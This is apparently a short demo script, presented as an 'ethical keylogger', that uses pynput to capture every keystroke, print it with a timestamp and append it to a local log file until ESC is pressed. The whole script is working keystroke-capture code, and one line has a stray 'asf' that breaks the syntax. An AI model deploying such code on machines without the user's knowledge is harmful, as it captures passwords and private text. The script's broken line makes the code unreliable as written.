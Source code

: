 from pynput import keyboard
from datetime import datetime
log_file = "keystroke_demo_log.txt"asf
print("Ethical Keylogger Running... (Press ESC to stop)")
print(" Type anything. Keystrokes will appear below:\n")
def on_press(key):
    time_stamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    try:
        key_char = key.char
    except AttributeError:
        key_char = f"[{key}]"
    log_entry = f"{time_stamp} - {key_char}"
    print(log_entry)
    with open(log_file, "a") as f:
        f.write(log_entry + "\n")
def on_release(key):
    if key == keyboard.Key.esc:
        print("\n Keylogger Stopped.")
        return False  # stop listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()


